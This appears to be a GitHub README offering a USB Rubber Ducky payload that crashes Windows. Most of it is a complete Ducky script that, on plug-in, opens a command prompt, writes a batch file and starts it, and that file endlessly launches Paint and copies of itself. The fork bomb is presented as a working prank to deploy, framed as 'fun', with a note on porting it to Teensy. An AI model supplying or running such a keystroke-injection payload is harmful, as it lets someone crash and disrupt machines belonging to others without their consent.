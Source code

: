 # About...
Version: 1.0

Author: BlueArduino20

# Fork Bomb for Rubber Ducky (For Windows)
Really basic script to crash Windows executing exponencially "mspaint.exe" and the same bat. It could be fun!

It's designed for the USB Rubber Ducky, but you can convert it for Teensy with Duckuino.js (By d4n5h): https://github.com/d4n5h/Duckuino

Anyway, here you've got the code:

# Code for Rubber Ducky

<pre><code>REM Fork Bomb for Windows. By: BlueArduino20
REM Let's give windows time to recognize our BadUSB
DELAY 2000
GUI r
ENTER
DELAY 100
STRING cmd
ENTER
DELAY 100
STRING copy con F.bat
ENTER
STRING :A
ENTER
STRING start mspaint.exe && start F.bat
ENTER
STRING GOTO A
ENTER
CONTROL z
ENTER
DELAY 100
STRING start F.bat</pre></code>
